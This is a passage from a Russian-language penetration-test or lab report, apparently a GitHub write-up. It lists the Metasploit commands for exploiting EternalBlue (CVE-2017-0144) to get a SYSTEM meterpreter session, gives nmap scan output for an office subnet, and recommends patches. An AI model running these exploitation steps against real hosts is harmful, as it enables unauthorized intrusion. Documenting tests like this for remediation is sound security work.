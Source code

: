 **Patch**
1. Установка последних обновлений Drupal
2. Установка последних обновлений на системе

### 10.20.2.12
Этот хост имеет уязвимость в Windows-реализации протокола SMB (**CVE-2017-0144**), поэтому мы можем успешно использовать эксплоит под кодовым именем **Eternalblue**.

Получаем **user** доступ.
На машине с Kali Linux выполним последовательность команд:

**msfconsole** - запуск Metasploit Framework
**use exploit/windows/smb/ms17_010_eternalblue** - выбираем эксплоит
**set RHOSTS хост1** - устанавливаем хост1 как цель для атаки
**run** - запускаем эксплоит

После удачной эксплуатации уязвимости мы получаем сессию meterpreter с NT AUTHORITY\SYSTEM

**Patch**
1. Установка последних обновлений на windows

---


# OFFICE Сегмент
Мы просканировали 10.20.4.0/24 и нашли:
10.20.4.6
10.20.4.8
10.20.4.10
10.20.4.13
```
10.20.4.6
 135/tcp   open  msrpc         Microsoft Windows RPC
 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
 445/tcp   open  microsoft-ds?
 3389/tcp  open  ms-wbt-server Microsoft Terminal Services
 5040/tcp  open  unknown
 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 49664/tcp open  msrpc         Microsoft Windows RPC
 49665/tcp open  msrpc         Microsoft Windows RPC
 49666/tcp open  msrpc         Microsoft Windows RPC
 49670/tcp open  msrpc         Microsoft Windows RPC
 49671/tcp open  msrpc         Microsoft Windows RPC
 49705/tcp open  msrpc         Microsoft Windows RPC
 49709/tcp open  msrpc         Microsoft Windows RPC
 49712/tcp open  msrpc         Microsoft Windows RPC
10.20.4.8
 22/tcp    open  ssh                OpenSSH for_Windows_8.6 (protocol 2.0)
 135/tcp   open  msrpc              Microsoft Windows RPC
 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
 445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: company)
 3389/tcp  open  ssl/ms-wbt-server?
 5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 5986/tcp  open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 49152/tcp open  msrpc              Microsoft Windows RPC
 49153/tcp open  msrpc              Microsoft Windows RPC
 49154/tcp open  msrpc              Microsoft Windows RPC
 49174/tcp open  msrpc              Microsoft Windows RPC
 49178/tcp open  msrpc              Microsoft Windows RPC
 49189/tcp open  msrpc              Microsoft Windows RPC
10.20.4.10
```